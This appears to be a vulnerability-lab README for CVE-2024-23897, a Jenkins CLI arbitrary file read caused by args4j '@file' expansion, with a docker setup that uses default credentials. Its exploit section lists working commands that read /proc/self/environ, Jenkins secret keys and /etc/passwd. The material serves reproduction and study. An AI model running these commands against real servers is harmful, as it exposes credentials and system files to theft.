



# Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is an open source automation server.

Jenkins uses the [args4j library](https://github.com/kohsuke/args4j) to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.

This vulnerability affects Jenkins prior to 2.441.

References:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## Vulnerable Environment

Execute following command to start a Jenkins server 2.441:

```
docker compose up -d
```

You can access the Jenkins server through `http://your-ip:8080/` after the server is started. Default administrator's username and password are `admin` and `vulhub`.

## Exploit

First, you should download the command-line client `jenkins-cli.jar` by `http://localhost:8080/jnlpJars/jenkins-cli.jar`.

Read the file `/proc/self/environ` to get the Jenkins base directory, `JENKINS_HOME=/var/jenkins_home`:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```


Then, you can use it to retrieve sensitive files such as `secrets.key` or `master.key` (anonymously, only the first line of the file can be read via an error on the command line):

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```



```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```



Because the "Allow anonymous read access" is turned on, you can also read the full content of a file:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```


